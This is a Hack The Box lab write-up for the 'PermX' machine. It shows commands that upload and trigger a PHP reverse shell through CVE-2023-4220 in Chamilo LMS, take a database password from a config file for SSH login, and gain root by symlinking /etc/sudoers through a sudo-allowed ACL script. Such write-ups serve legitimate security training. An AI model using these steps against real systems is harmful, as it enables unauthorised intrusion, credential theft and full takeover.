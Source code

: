 # HTB Walkthrough — Machine: PermX

**Target IP:** `10.10.11.23`  
**Author:** Miguel Reis  
**Difficulty:** Easy  
**OS:** Linux

![[PermX-20240713000202915.png]]

## Subdomain Enumeration


```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://permx.htb/" -H 'host: FUZZ.permx.htb' -fc 302
```

http://lms.permx.htb/index.php

We find [CVE-2023-4220](https://starlabs.sg/advisories/23/23-4220/)

We confirm that `http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/` directory exists

We use a php reverse shell to access the server:


```
curl -F 'bigUploadFile=@php-reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```


```
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/php-reverse-shell.php'
```

Then we use:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

to spawn a interactive shell, now we need to do privilege escalation


On the file: `/var/www/chamilo/app/config/configuration.php` we find:
 

```
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

```

We then can use:

`ssh mtz@10.10.11.23` and use the password to login

We have sudo access to run `/opt/acl.sh`, which is a bash script with the purpose of modifying file permissions and access control lists (ACLs) for specified files and directories, enabling specific users or groups to gain additional read, write, or execute permissions beyond their default access
with the limitation that it must be a file and it needs to be on the /home/mtz directory

we then create a symbolic link to /etc/sudoers file to give our user sudo permissions ith the command:

```
ln -s /etc/sudoers link
```


And give permissions to that link:

```
sudo /opt/acl.sh mtz rwx /home/mtz/link 
```

we then can nano the file and give priviliges to mtz:
`mtz    ALL=(ALL:ALL) ALL`

For some reason we must `ctrl+x` to exit click `y` to indicate we want to save the file and click `ENTER` to maintain the name

When i pressed `ctrl+s` and then `ctrl+x` it didnt work and i needed to redo the link

we can then switch to root: `sudo su` and the flag is on `/root` as usual.

